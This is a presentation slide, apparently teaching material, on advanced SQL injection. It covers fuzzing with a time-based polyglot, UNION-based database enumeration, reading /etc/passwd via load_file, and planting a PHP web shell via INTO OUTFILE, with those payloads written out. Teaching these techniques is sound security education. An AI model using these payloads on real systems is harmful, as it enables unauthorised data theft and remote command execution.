

# Advanced SQL Injection
Detecting SQLI
Look for parts of the site that may interact with a database: a login form, a search function, a form that may insert new data
Try fuzzing for an error by using a polyglot (e.g. SLEEP(1) /*’ or SLEEP(1) or’” or SLEEP(1) or “*/), or calling functions to determine the SQL Engine being used
Enumerating the Database
If you can arbitrarily select data (for example, with a UNION attack), you can use functions to enumerate the database
For example, SELECT id, name, quantity, price FROM products WHERE name LIKE “%who cares%” UNION SELECT user(), database(), session_user(), current_user();-- %”; will tell you the name of the database and user information
Reading and Writing with SQL Functions
Arbitrary selects can also use the load_file(/path/to/file) function to read sensitive data (such as /etc/passwd)
The INTO OUTFILE command allows writing to a file on the system
We can use this to upload a shell (assuming the database user has write permissions)
For example, ‘ UNION SELECT 1,’<?php system($_GET[“cmd”]); ?>‘ INTO OUTFILE ‘/path/to/webapp/cmd.php’ --